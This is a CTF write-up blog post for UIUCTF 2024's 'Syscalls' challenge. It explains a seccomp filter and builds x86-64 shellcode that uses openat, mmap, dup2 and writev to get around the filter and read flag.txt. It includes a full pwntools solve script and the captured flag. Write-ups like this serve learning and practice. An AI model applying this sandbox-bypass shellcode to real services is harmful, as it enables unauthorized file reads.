 ```yaml
---
layout: post
title:  "UIUCTF 2024 - Syscalls"
date:   "2024-07-11"
tags: [pwn, b01lers]
usemathjax: false
---
```


A couple weekends ago I played UIUCTF 2024 with b01lers. As always, the folks at UIUC and sigpwny put on a great CTF! The theme was super cool and the challenges were very interesting. I solved `Backup Power` and `Syscalls`; the write-up for `Syscalls` is below. 

# Syscalls | pwn

This challenge was pretty straightforward. Upon analyzing the binary, we find a main function as seen below. 

```c
void main(void) {
  long in_FS_OFFSET;
  undefined buffer [184];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  vuln(buffer);
  meat_and_potatoes();
  exec(buffer);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Some buffering is set up so that we can interact over `nc` and then the first notable function, `vuln()`, is called. This function simply takes in 176 bytes over 
stdin and places them in `buffer`. No overflow but as we'll come to find out later that doesn't matter. 

Next, the aptly named function, `mean_and_potatoes()`, is called. Inside it, it uses a couple calls to the function `prctl()` to first set some "capabilities". I 
had never seen this function before, so the man pages and the source code in `prctl.h` helped me figure out what it was doing. Here are some links for reference: 
1. https://linux.die.net/man/2/prctl
2. https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h

Below is the bottom bit of the `meat_and_potatoes()` function. 

```c
  prctl(38,1,0,0,0);
  iVar1 = prctl(22,2,local_e8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar1;
}
```
The first call to `prctl()` enables `PR_SET_NO_NEW_PRIVS` which ensures no elevated privileges are granted to the process. The next call will enable SECCOMP in 
filter mode. With SECCOMP enabled we will be restricted in what syscalls this program can make. The BPF filter is set up on the stack in the beginning of this
function and it took me a bit to figure out what it was at first. The last argument to the second call to `prtctl()` points to the BPF filter. 

Before we dive into what syscalls are filtered lets look at the last notable function called in `main()`, `exec()`. This function will simply execute any shellcode 
placed in `buffer` which we control. So, our objective will be to write some shellcode that gets around the SECCOMP filters and prints out the flag. 

Using the nifty tool `seccomp-tools` we can turn the SECCOMP BPF filter into something human readable. After dumping the filter, my teammate `@athryx` helped me 
analyze it and come up with an exploit. The filter can be seen below. 

![](filter-dump.png)

Looking above we can see that some notable syscalls, `read`, `write`, `open`, `execve`, `exevveat`, are banned. Also, `writev` will block File Descriptors (FDs)
below `0x3e8`.  How unfortunate. Nevertheless, let's walk through each section of shellcode in the final exploit.

The first bit:

```c
push 1
dec byte ptr [rsp]
mov rax, 0x7478742e67616c66
push rax
push 257
pop rax
mov rsi, rsp
mov rdi, -0x64
xor rdx, rdx
syscall
mov r11, rax
```

Here, we'll push the string `flag.txt` onto the stack, get a stack pointer to it, and eventually place that stack pointer into `rsi`. We'll then set up a call to 
the `openat` syscall to try and get an open FD to the file `flag.txt`. `openat` will open a FD relative to a directory, so we can place the special value `-0x64` as
the first arg in `rdi` so that `openat` will look at the current directory for the file. Then, we'll place our stack pointer to `flag.txt` into `rsi`, set `rdx` to 0, then place the resultant FD into `r11` for use later. 

The second bit: 
```c
mov rax, 9
mov rdi, 0
mov rsi, 100
mov rdx, 1|2
mov r10, 2
mov r8, r11
mov r9, 0
syscall
mov r10, rax
```

The second bit will use the `mmap` syscall to put the contents of `flag.txt` into an arbitrary section of memory. In `rdi` we'll place 0 to indicate we want to mmap an arbitrary section of memory and in `rsi` we'll place 100 which is the number of bytes we want to read in (overkill, but whatever). In `rdx` we'll make it so the 
memory page we get is readable and writeable and in `r10` we'll make the mapping private. Finally, the FD will go from `r11` into `r8` and in `r9` we'll place a 0. 

The third bit:
```c
mov rax, 33
mov rdi, 1
mov rsi, 0x3ea
syscall
```
The third bit we'll use something super cool called the `dup2` syscall. This will let us take one FD and turn it into a different one. Since `writev` blocks anything
below `0x3e8` and stdout is `1`, we can simply change stdout to be something else! Cool, right?! We'll change it to `0x3ea` here. 

The final bit:
```c
push 100
push r10
mov rdi, 0x3ea
mov rsi, rsp
mov rdx, 1
mov rax, 20
syscall
```

In the final bit, we'll first move our new stdout FD into `rdi`. Since the second arg of `writev` is a pointer to a struct of type `iovec`, we'll need to 
do some finagling. We can just push the values we want in the struct; `100` for the size to write and the contents of `r10`, the address of the mmapped `flag.txt`,
onto the stack. `rsp` is used like a pointer and mimics the struct which is placed in `rsi`. Finally `1` gets thrown in `rdx` since we only want to print one buffer. 

And that should do it! Once we send this shellcode to the remote server running this challenge we should get the flag printed out! Super fun and interesting 
challenge. Full solve script below. 

```python
from pwn import *

elf = context.binary = ELF("syscalls")
context.terminal = ['tmux', 'split-window', '-h']
p = remote("syscalls.chal.uiuc.tf", 1337, ssl=True)

shellcode = '''
push 1
dec byte ptr [rsp]
mov rax, 0x7478742e67616c66
push rax
push 257
pop rax
mov rsi, rsp
mov rdi, -0x64
xor rdx, rdx
syscall
mov r11, rax

mov rax, 9
mov rdi, 0
mov rsi, 100
mov rdx, 1|2
mov r10, 2
mov r8, r11
mov r9, 0
syscall
mov r10, rax

mov rax, 33
mov rdi, 1
mov rsi, 0x3ea
syscall

push 100
push r10
mov rdi, 0x3ea
mov rsi, rsp
mov rdx, 1
mov rax, 20
syscall
'''

p.sendline(asm(shellcode))
p.interactive()

# uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}
```






